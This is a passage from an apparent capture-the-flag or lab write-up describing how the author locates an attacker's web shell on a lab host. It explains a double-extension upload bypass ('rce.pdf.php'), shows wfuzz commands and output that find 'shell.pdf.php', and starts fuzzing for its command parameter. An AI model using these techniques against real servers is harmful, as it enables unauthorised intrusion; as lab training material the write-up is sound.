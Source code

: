 If I was the hacker, to bypass this filtering I would have uploaded a file called something like 'rce.pdf.php'. So I fuzzed the cvs directory for any files with the extensions '.pdf.php'. 

{% highlight shell %}
$wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/common.txt --hc 404,403 http://10.10.212.207/cvs/FUZZ.pdf.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.212.207/cvs/FUZZ.pdf.php
Total requests: 4661

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                           
=====================================================================

000003693:   200        1 L      2 W        18 Ch       "shell"                                                                                                           

Total time: 0
Processed Requests: 4661
Filtered Requests: 4660
Requests/sec.: 0
{% endhighlight %}

I got a hit! So now to find the parameter used to execute commands, typically its something like 'cmd' which it was but if it wasn't it could be fuzzed.

{% highlight shell %}
$wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/common.txt --hc 404,403 http://10.10.212.207/cvs/shell.pdf.php?FUZZ=id                                                  
                                                     
********************************************************                                                                                                                           
* Wfuzz 3.1.0 - The Web Fuzzer                         *                                                                                                                           
********************************************************                                                                                                                           
                                                                                                                                                                                   
Target: http://10.10.212.207/cvs/shell.pdf.php?FUZZ=id                                                                                                                             
Total requests: 4661                                                                                                                                                               
                                                                                                                                                                                   
=====================================================================                                                                                                              
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================                                                                                                              
                                                                                                                                                                                   
000000001:   200        1 L      2 W        18 Ch       ".bash_history"                                                                                                            
000000003:   200        1 L      2 W        18 Ch       ".cache"                                                                                                                   
000000012:   200        1 L      2 W        18 Ch       ".htpasswd"                                                                                                                
000000014:   200        1 L      2 W        18 Ch       ".listings"                                                                                                        
000000010:   200        1 L      2 W        18 Ch       ".hta"                                                                                                             
000000015:   200        1 L      2 W        18 Ch       ".mysql_history"                                                                                                   
000000016:   200        1 L      2 W        18 Ch       ".passwd"                                                                                                          
000000011:   200        1 L      2 W        18 Ch       ".htaccess"                                                                                                        
{% endhighlight %}

Everything is returning a 200 response so instead of filtering based on the HTTP response code I changed the filter to be based on the characters in the response.
